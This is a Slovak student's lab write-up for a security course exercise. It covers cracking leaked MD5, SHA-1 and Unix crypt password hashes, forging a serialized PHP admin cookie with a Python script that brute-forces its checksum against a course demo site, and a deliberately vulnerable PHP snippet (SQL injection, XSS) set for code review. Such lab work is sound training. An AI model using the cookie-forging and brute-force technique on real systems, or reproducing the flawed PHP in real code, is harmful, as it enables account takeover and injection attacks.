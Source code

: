 # Cvičenie 4 BIT

### Fedor Viest
### Cvičenie: Po 10:00

---
---

## 4.1 Weak passwords and hashing
- Unikla vám databáza s heslami vašich používateľov.
- Identifikujte formát hashovania jednotlivých hesiel hashovaciu funkciu a prípadný salt a napíšte, či je dané hashovanie bezpečné. Ak nie, uvedte pre čo.
- Pokúste sa zlomit jednotlivé heslá pomocou OSINT a crackovacích nástrojov (john the ripper alebo hashcat).Heslá sa nachádzajú v slovníkoch s bežnými heslami.


Použil som nástroj hash-identifier na zistenie hashov hesiel

**320f90360b2e6242a1605c6a43466691** - MD5

Na cracknutie som použil túto stránku: https://md5.j4ck.com/13950 a heslo je **krokodil123**

**da39a3ee5e6b4b0d3255bfef95601890afd80709** - SHA-1

Na cracknutie som použil túto stránku: https://sha1.gromweb.com/?string= a heslo je empty string

![](image.png)


**$1$e89cca48$.lNUNFuE848.qRakPnepu/** - MD5 (Unix)

Na cracknutie hesla som použil nástroj john the ripper a heslo je **12345678**

![](image-1.png)


**$5$1111$Fu1TGVjZl6a7x2vnKn5HqzhlevDCQyGObcGPAziy61D** - SHA256 (Unix), salted, kde salt je 1111

Na cracknutie som použil nástroj john the ripper a heslo je **password1**

![](image-2.png)

**$5$1111$N21DKC75OGVQpl5dkeN0FUvsR3JoiyLP1XxSkDOAfM7** - SHA256 (Unix), salted, kde salt je 1111

Na cracknutie som použil nástroj john the ripper a heslo je **nbusr123**

![](image-3.png)

## 4.2 Broken authentication
- Na stránke “backend.php” nájdete prihlasovací formulár.
- Vaše meno a heslo a heslo je “bit” “bit”.
- Získajte prístup do administrátorskej časti stránky a nájdite “flag”.


Najprv som sa prihlásil a našiel cookie v browseri.

![](image-4.png)

Toto znamená, že cookie má v sebe 2 informácie: sess a sess_csum. Sess string som dal do base64 dekódera a vyhodilo mi to nasledovný output:

```php
O:8:"stdClass":4:{
    s:2:"id";i:13;
    s:5:"login";s:3:"bit";
    s:8:"password";s:3:"bit";
    s:8:"is_admin";b:0;
}
```

Tento output je vlastne serializovaný cookie, tak som v dátach zmenil polia **id** na 1, **login** na jozko, **password** na kreslo a **is_admin** na 1. Dáta som následne naspäť enkódoval a vyšiel mi tento base64 string:

```
Tzo4OiJzdGRDbGFzcyI6NDp7czoyOiJpZCI7aToxO3M6NToibG9naW4iO3M6NToiam96a28iO3M6ODoicGFzc3dvcmQiO3M6Njoia3Jlc2xvIjtzOjg6ImlzX2FkbWluIjtiOjE7fQ==
```

Po pár pokusoch o uhádnutie checksum (nájdenie nejakého vzorca) som si napísal script, ktorý brute force-uje všetky checksum 0-1000:

```py
import requests

url = "https://xviest.bit.demo-cert.sk/backend.php"

login_data = {
    "action": "login",
    "login": "bit",
    "password": "bit"
}

with requests.Session() as session:
    response = session.post(url, data=login_data)
    cookie = session.cookies.get_dict()

results = []

for i in range(1000):
    cookie["sess"] = "Tzo4OiJzdGRDbGFzcyI6NDp7czoyOiJpZCI7aToxO3M6NToibG9naW4iO3M6NToiam96a28iO3M6ODoicGFzc3dvcmQiO3M6Njoia3Jlc2xvIjtzOjg6ImlzX2FkbWluIjtiOjE7fQ=="
    cookie["sess_csum"] = str(i)
    response = requests.get(url, cookies=cookie)
    curr_cookie = "checksum {}: {}".format(i, response.content)

    print(curr_cookie)

    results.append(curr_cookie)

print(results)
```

S týmto postupom som našiel správnu hodnotu checksum, ktorá je **103**

![](image-5.png)


Keď som nahradil cookie údaje, tak sa mi zobrazil "flag": **krtko**


![](image-7.png)

![](image-6.png)

## 4.4 More code review

- Na adrese https://bit.demo-cert.sk/derave2.phps nájdete časť zdrojového kódu webovej aplikácie napísanej v jazyku PHP.
- Nájdite v nej čo najviac zraniteľností a logický chýb. (aspon 3)
- Zamerajte sa na typy zranitelností, ktoré ste neobjavili v úlohe 3.4
- Okomentujte ich a vyskúšajte ich pomenovať pomocou CWE identifikátorov.
- Bonus: Navrhnite odporúčania, ako problému odstrániť, prípadne opravte kód


```php

<?php

// initialize database connection ($db)
include("mysql.inc");

// authentication
if (!empty($_REQUEST['login'])) {
	$login = $_REQUEST['login'];
	$password = substr($_REQUEST['password'], 0, 8);
	$user = $db->getRow("SELECT * FROM users WHERE login='".addslashes($login)."' AND password='".addslashes($password)"'");
	setcookie('user',base64_encode($user));
	// greet user after login
	echo "<h1>Welcome back {$_REQUEST['login']}</h1>";
} else {
	// resume session
	$user = @base64_decode($_COOKIE['user']);
}

// new messages and file uploads
if (!empty($_POST['message'])) {
	// message & user info
	$title = $_POST['title'];
	$message = $_POST['message'];
	$author = $user['name'];
	$message_id = $db->getValue("SELECT MAX(id) FROM messages");

	// check, if user has external avatar
	$url = "https://www.gravatar.com/avatar/".md5(trim($user['login']));
	$avatar_data = file_get_contents($url);
	file_put_contents("avatars/".$user['login'].".jpg");

	// save message
	$db->query("INSERT INTO messages VALUES(".($message_id + 1).",'$title', '$message', '$author')");

	// update post count
	$db->query("UPDATE users SET post_count=post_count+1,last_message='$title' WHERE user='$author'");
}

// allow administrator to delete messages
if (!empty($_GET['delete_message']) && $user['admin']) {
	$db->query("DELETE FROM messages WHERE id=".intval($_GET['delete_message']));
}
	
// show all messages
$messages = $db->getAll("SELECT * FROM messages ORDER BY created_at ASC");

foreach ($messages as $message) {
	echo <<<EOT
<h1>{$message['title']}</h1>
<h2>{$message['author']}</h2>
<div>{$message['message']}</div>
EOT;
	if ($user['admin']) {
		echo "<a href='?delete_message={$message['id']}'>delete message</a>";
	}
}
```